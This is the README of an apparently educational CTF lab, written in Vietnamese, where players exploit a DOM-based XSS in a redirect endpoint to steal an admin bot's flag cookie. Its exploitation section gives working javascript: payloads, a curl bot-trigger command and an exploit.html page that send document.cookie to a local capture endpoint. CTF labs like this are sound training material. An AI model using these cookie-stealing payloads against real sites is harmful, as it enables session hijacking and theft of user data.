

# 🛡️ CTF Web Challenge: DOM XSS in 302 Redirect

> **Nền tảng học tập bảo mật web tương tác** - Thử thách CTF về khai thác lỗ hổng DOM-based XSS trong cơ chế redirect với CSP nghiêm ngặt.

[]()
[]()
[]()

## 🎯 Giới thiệu

**DOM XSS in 302 Redirect** là một nền tảng học tập bảo mật web tương tác, mô phỏng lỗ hổng DOM-based XSS xuất hiện trong quá trình xử lý redirect. Người chơi sẽ học cách:

- ✅ Hiểu và khai thác DOM-based XSS trong redirect mechanism
- ✅ Bypass Content Security Policy (CSP) nghiêm ngặt
- ✅ Sử dụng `window.opener` và `javascript:` scheme
- ✅ Đánh cắp cookies có chứa flag từ admin bot

### 🎓 Mục tiêu học tập

1. **Reconnaissance**: Phân tích redirect mechanism và tìm attack vector
2. **Exploitation**: Craft payload để bypass CSP và trigger XSS
3. **Cookie Theft**: Capture admin cookie chứa flag
4. **Flag Validation**: Submit flag để hoàn thành thử thách

## 🛠️ Công nghệ sử dụng

### Frontend
- **React 18** - UI framework với TypeScript
- **Wouter** - Lightweight client-side routing
- **TanStack Query** - Server state management với caching
- **shadcn/ui** - Component library trên Radix UI
- **Tailwind CSS** - Utility-first CSS framework với cybersecurity theme
- **Vite** - Build tool và dev server với HMR

### Backend
- **Express.js** - Web framework cho Node.js
- **TypeScript** - Type-safe development
- **Drizzle ORM** - Type-safe database toolkit
- **AES-256-GCM** - Mã hóa flag với authentication

### Security Features
- **CSP Headers** - Content Security Policy với production hardening (object-src, base-uri, form-action, frame-ancestors)
- **Rate Limiting** - Bảo vệ bot và capture endpoints khỏi abuse
- **Flag Encryption** - Mã hóa AES-256-GCM, chỉ giải mã khi capture đúng cookie qua bot exploitation
- **Input Validation** - Length limits và type checking cho tất cả user inputs
- **Security Headers** - X-Content-Type-Options, X-Frame-Options, Referrer-Policy, Permissions-Policy, X-XSS-Protection

## 📦 Cài đặt

### Yêu cầu hệ thống

- Node.js 20.x hoặc cao hơn
- npm 9.x hoặc cao hơn
- 2GB RAM khả dụng
- Port 5000 không bị sử dụng

### Bước 1: Clone repository

```bash
git clone https://github.com/F12FLASH/CTF.git
cd CTF/15.DOM XSS in 302 Redirect
```

### Bước 2: Cài đặt dependencies

```bash
npm install
```

### Bước 3: Cấu hình môi trường (tùy chọn)

Tạo file `.env` nếu muốn tùy chỉnh:

```env
# Flag encryption key (production nên đổi)
FLAG_ENCRYPTION_KEY=your-secret-key-min-32-characters

# Server port (mặc định 5000)
PORT=5000

# Node environment
NODE_ENV=development
```

### Bước 4: Khởi chạy ứng dụng

```bash
npm run dev
```

Ứng dụng sẽ chạy tại: **http://localhost:5000**

```

### Luồng dữ liệu

```
┌──────────────┐     HTTP/REST     ┌──────────────┐
│   Frontend   │ ◄──────────────► │   Backend    │
│   (React)    │     TanStack      │  (Express)   │
│              │      Query        │              │
└──────────────┘                   └──────┬───────┘
                                          │
                                          ▼
                                   ┌──────────────┐
                                   │  MemStorage  │
                                   │  (In-Memory) │
                                   └──────────────┘
```

### API Endpoints

#### Challenge Endpoints
- `GET /api/redirect?url=<url>` - Vulnerable redirect page (educational)
- `POST /api/exploit/submit` - Submit exploit payload
- `GET /api/exploits` - Get all exploit attempts

#### Bot Endpoints (Rate Limited)
- `POST /api/bot/visit` - Trigger admin bot to visit URL (10 req/min)
- `GET /api/bot/status` - Get bot status (idle/visiting/completed)
- `POST /api/capture` - Manual cookie capture endpoint (50 req/min)

#### Game Endpoints
- `GET /api/cookies` - Get all captured cookies
- `DELETE /api/cookies` - Clear all captured cookies
- `GET /api/hints` - Get all hints
- `POST /api/hints/:id/reveal` - Reveal specific hint
- `POST /api/flag/validate` - Validate flag (requires captured admin cookie)

## 📚 Hướng dẫn sử dụng

### Interface chính

1. **Challenge Description Panel** - Mô tả thử thách và mục tiêu
2. **Exploit Payload Editor** - Soạn và test XSS payloads
3. **Admin Bot Simulator** - Trigger bot với malicious URL
4. **Bot Status Monitor** - Theo dõi hoạt động của bot real-time
5. **Captured Cookies Panel** - Xem cookies đã đánh cắp
6. **Hints System** - Gợi ý từng bước (4 cấp độ)
7. **Flag Validation** - Submit flag để hoàn thành

### Workflow cơ bản



## 🎮 Kịch bản khai thác

### Cấp độ 1: Reconnaissance 🔍

1. Kiểm tra redirect endpoint: `/api/redirect?url=https://example.com`
2. Quan sát behavior và CSP headers
3. Test với `javascript:` scheme

### Cấp độ 2: Craft Payload 🛠️

Payload mẫu sử dụng fetch để exfiltrate cookie:

```javascript
javascript:(function(){
    fetch('/api/capture', {
        method: 'POST',
        headers: {'Content-Type': 'application/json'},
        body: JSON.stringify({
            cookie: document.cookie
        })
    });
})()
```

### Cấp độ 3: Deploy Exploit 🚀

**Cách thực hiện:**
1. Craft exploit URL với javascript: payload:
   ```
   http://localhost:5000/api/redirect?url=javascript:(function(){fetch('/api/capture',{method:'POST',headers:{'Content-Type':'application/json'},body:JSON.stringify({cookie:document.cookie})})})()
   ```

2. Trigger bot visit:
   ```bash
   curl -X POST http://localhost:5000/api/bot/visit \
     -H "Content-Type: application/json" \
     -d '{"url": "http://localhost:5000/api/redirect?url=javascript:..."}'
   ```

3. Bot sẽ:
   - Generate unique nonce cho visit session
   - Detect XSS payload trong redirect URL
   - Execute javascript: và POST admin cookie với nonce
   - Mark nonce as used

### Cấp độ 4: Validate Flag ✅

1. Check **Captured Cookies Panel** có admin cookie
2. Extract flag từ cookie: `flag=VNFLAG{...}`
3. Submit qua **Flag Validation**
4. System verifies:
   - Admin cookie hash matches
   - Cookie captured via valid bot visit (nonce verified)
   - Flag matches decrypted value

**Security Note**: Nonce system ensures cookies MUST be captured through actual bot visit exploitation, preventing manual seeding bypasses.

### Ví dụ Exploit Chain

```html
<!-- exploit.html - Host trên server public -->
<!DOCTYPE html>
<html>
<head>
    <title>Exploit</title>
</head>
<body>
    <script>
        // Mở redirect page với payload
        const payload = "javascript:(function(){" +
            "fetch('http://localhost:5000/api/capture', {" +
            "method: 'POST'," +
            "headers: {'Content-Type': 'application/json'}," +
            "body: JSON.stringify({cookie: document.cookie})" +
            "});" +
        "})()";
        
        window.open(
            'http://localhost:5000/api/redirect?url=' + 
            encodeURIComponent(payload)
        );
    </script>
</body>
</html>
```

## 🔐 Bảo mật & Môi trường

### Flag Protection

Flag được mã hóa bằng **AES-256-GCM** và chỉ được giải mã khi:
- User đã capture được admin cookie
- Submit flag qua `/api/flag/validate`

```typescript
// server/crypto.ts
export function encryptFlag(plaintext: string): string {
  const key = getEncryptionKey(); // SHA-256 hash of secret
  const iv = randomBytes(16);
  const cipher = createCipheriv("aes-256-gcm", key, iv);
  // ... encryption logic
}
```

### Environment Variables

| Variable | Mô tả | Default | Production |
|----------|-------|---------|------------|
| `FLAG_ENCRYPTION_KEY` | Key để mã hóa flag | dev-key | **BẮT BUỘC đổi** |
| `PORT` | Server port | 5000 | Tùy chỉnh |
| `NODE_ENV` | Environment | development | production |

### CSP Headers

**Production CSP:**
```
Content-Security-Policy:
  default-src 'self';
  script-src 'self' 'unsafe-eval';
  style-src 'self' 'unsafe-inline';
  img-src 'self' data:;
  font-src 'self' data:;
  connect-src 'self';
  object-src 'none';
  base-uri 'self';
  form-action 'self';
  frame-ancestors 'none';
```

**Development CSP** (thêm ws:/wss: cho HMR, blob: cho workers):
```
Content-Security-Policy:
  default-src 'self';
  script-src 'self' 'unsafe-inline' 'unsafe-eval';
  connect-src 'self' ws: wss:;
  worker-src 'self' blob:;
```

**Redirect Endpoint CSP** (intentionally vulnerable):
```
Content-Security-Policy:
  default-src 'self';
  script-src 'self' 'unsafe-inline';
  sandbox allow-scripts allow-top-navigation-by-user-activation;
```

### Rate Limiting

- **Bot Visit**: 10 requests/phút/IP - Ngăn bot spam
- **Capture**: 50 requests/phút/IP - Bảo vệ capture endpoint
- Sliding window algorithm với in-memory storage
- **Flag Validation**: Không rate limit để tránh conflict với bot IP

## ✨ Tính năng nổi bật

### 🎨 Dark Mode Cybersecurity Theme

- **Deep Dark Backgrounds** - Màu nền đậm phong cách terminal
- **Neon Cyan Primary** - Màu chủ đạo cyan neon (186 92% 55%)
- **Matrix Green Accents** - Điểm nhấn xanh matrix (134 78% 52%)
- **Smooth Transitions** - Chuyển đổi mượt mà giữa light/dark mode

### 🤖 Admin Bot Simulation

- Real-time status monitoring (idle/visiting/completed)
- Simulated delay để tạo tính chân thực
- Visit counter và timestamp tracking
- Automatic cookie capture khi detect malicious activity

### 💡 Progressive Hints System

4 cấp độ gợi ý từ beginner đến advanced:
1. **Bước đầu tiên** - Test javascript: scheme
2. **Bypass CSP** - Sử dụng window.opener
3. **Khai thác iframe** - Technique chi tiết
4. **Payload hoàn chỉnh** - Example working payload

### 🔔 Real-time Updates

- TanStack Query với automatic refetch (2-3s intervals)
- Live bot status updates
- Instant cookie capture notifications
- Toast notifications cho user feedback

## 🧪 Testing

### Development Testing

```bash
# Run development server với hot reload
npm run dev

# Type checking
npm run check

# Build production bundle
npm run build
```

### Manual Testing Checklist

- [ ] Redirect endpoint hoạt động với URL hợp lệ
- [ ] CSP headers được apply đúng
- [ ] Bot simulator có thể trigger thành công
- [ ] Cookies được capture và hiển thị
- [ ] Flag validation chỉ work khi có admin cookie
- [ ] Rate limiting block requests vượt giới hạn
- [ ] Dark mode toggle hoạt động mượt mà
- [ ] Hints có thể reveal từng cấp độ

### Browser Compatibility

Tested trên:
- ✅ Chrome/Edge 120+
- ✅ Firefox 121+
- ✅ Safari 17+

## 🐛 Troubleshooting

### Vấn đề thường gặp

**1. Port 5000 đã được sử dụng**
```bash
# Tìm process đang dùng port 5000
lsof -ti:5000 | xargs kill -9

# Hoặc đổi port trong .env
PORT=3000
```

**2. Flag validation luôn fail**
```
Lỗi: "You must capture the admin cookie first!"

Giải pháp:
- Đảm bảo bot đã visit URL của bạn
- Check Captured Cookies Panel có cookie chứa "flag="
- Bot chỉ gửi cookie khi URL có "capture" hoặc "webhook"
```

**3. Bot không visit URL**
```
Lỗi: Rate limit exceeded

Giải pháp:
- Đợi 1 phút trước khi retry
- Check bot status panel để xem bot status
```

**4. Theme không đổi**
```
Giải pháp:
- Clear browser cache và localStorage
- Hard refresh (Ctrl+Shift+R)
```

### Debug Mode

Enable verbose logging:

```bash
NODE_ENV=development npm run dev
```

Check browser console và server logs để troubleshoot.

## 📖 Educational Value

Thử thách này giúp học:

1. **DOM-based XSS** - Lỗ hổng phía client-side
2. **CSP Bypass Techniques** - Navigation-based bypass
3. **Browser Security Model** - Same-origin policy, window.opener
4. **Secure Coding** - Input validation, output encoding
5. **Defense in Depth** - Multiple layers of protection

## 🤝 Contributing

Đây là một educational project. Contributions welcome:

- 🐛 Bug reports
- 💡 Feature suggestions
- 📝 Documentation improvements
- 🔒 Security enhancements (không phá vỡ educational vulnerability)

## ⚖️ License

MIT License - See LICENSE file for details

## 🎓 Credits

- **Challenge Design**: Dựa trên real-world DOM XSS scenarios
- **UI Components**: shadcn/ui + Radix UI
- **Theme**: Cybersecurity-inspired design system

---

<div align="center">

**⚠️ Educational Purpose Only ⚠️**

Thử thách này được thiết kế cho mục đích học tập bảo mật web.  
Không sử dụng techniques này trên hệ thống thực tế mà không có permission.

**Made for CTF enthusiasts**

</div>
